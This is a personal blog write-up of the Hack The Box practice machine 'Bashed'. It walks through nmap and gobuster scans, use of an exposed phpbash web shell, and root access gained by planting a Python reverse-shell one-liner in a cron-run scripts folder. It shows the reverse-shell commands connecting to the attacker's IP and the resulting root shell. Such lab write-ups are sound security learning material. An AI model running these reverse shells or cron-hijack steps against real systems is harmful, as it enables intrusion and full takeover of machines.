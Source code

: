 ```yaml
---
layout: post
title:  "Bashed"
date:   2023-10-28 07:15:30 -0400
categories: jekyll update
---
```



Bashed

<img
  src="/assets/bashed.png"
  alt="featured image"
  class="featured-image-post"
/>

Was an easy box up to the tricky priv esc but finally got the root.

```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# nmap -sC -sV -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 05:07 EDT
Nmap scan report for 10.10.10.68
Host is up (0.055s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site
```
Not much there so ran an all port scan `-p`:
```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# nmap -p- -Pn 10.10.10.68
Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-28 05:07 EDT
Nmap scan report for 10.10.10.68
Host is up (0.039s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
```
Not much of a difference so I check out the web server at port 80, not much there. I run gobuster:
```
┌──(root💀kali)-[/home/spacemoth/machines/lame/CVE-2007-2447]
└─# gobuster dir -u 10.10.10.68 -w /usr/share/wordlists/dirb/common.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 290]
/.htaccess            (Status: 403) [Size: 295]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/server-status        (Status: 403) [Size: 299]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
==============================================================
```
First thing pops out at me is the `/dev` domain. So I check it out and its a phpbash web shell. I obtain the user flag:
```
www-data@bashed:/var/www/html/dev# whoami
www-data  
www-data@bashed:/var/www/html/dev# cd ..
www-data@bashed:/var/www/html# cd ..
www-data@bashed:/var/www# cd ..
www-data@bashed:/var# cd ..
www-data@bashed:/# ls
<snip>
www-data@bashed:/# cd home
www-data@bashed:/home# ls
arrexel  
scriptmanager  
www-data@bashed:/home# cd arrexel
www-data@bashed:/home/arrexel# cat user.txt
82d****************************
```
I tried sudo -l and it returned that scriptmanager is able to run sudo without a password. I was unable to switch to the user so I looked for a reverse shell one-liner. I found this:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
Stabilized my shell: `python -c "import pty;pty.spawn('/bin/bash')"`
I ran the command: `sudo -u scriptmanager /bin/bash`
```
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/$ sudo -u scriptmanager /bin/bash
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/$ whoami
whoami
scriptmanager
scriptmanager@bashed:/$ 
```
I noticed the folder `scripts` in the root directory and checked it out. It has 2 files:
```
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 16
drwxrwxr--  2 scriptmanager scriptmanager 4096 Jun  2  2022 .
drwxr-xr-x 23 root          root          4096 Jun  2  2022 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
-rw-r--r--  1 root          root            12 Oct 28 02:55 test.txt
```
Root owns test.txt and the time its "created" keeps changing, which makes me to believe its a cron job. The test.py file writes to the test.txt:
```
scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```
I will replace this file and put a reverse shell one-liner into it so when the cron job runs, which is owned by root, will hopefully give us an elevated session back. On the target machine I enter this command to create a new file:
```
scriptmanager@bashed:/scripts$ echo 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.24",1235));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' > exploit.py
<o(),2);p=subprocess.call(["/bin/sh","-i"]);' > test2.py
```
I set up a nc listener and as soon as I do I get a shell.
```
┌──(kali💀kali)-[~]
└─$ nc -nlvp 1235 
listening on [any] 1235 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.68] 58710
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
```
I was going to change the name of the original test.py to something else and change the new file I just created to test.py. Apparently the cron job is set up to run all .py files as root in the scripts directory. I went ahead and grabbed the root flag.
```
# cd root
# ls
root.txt
# cat root.txt
42*************************
```
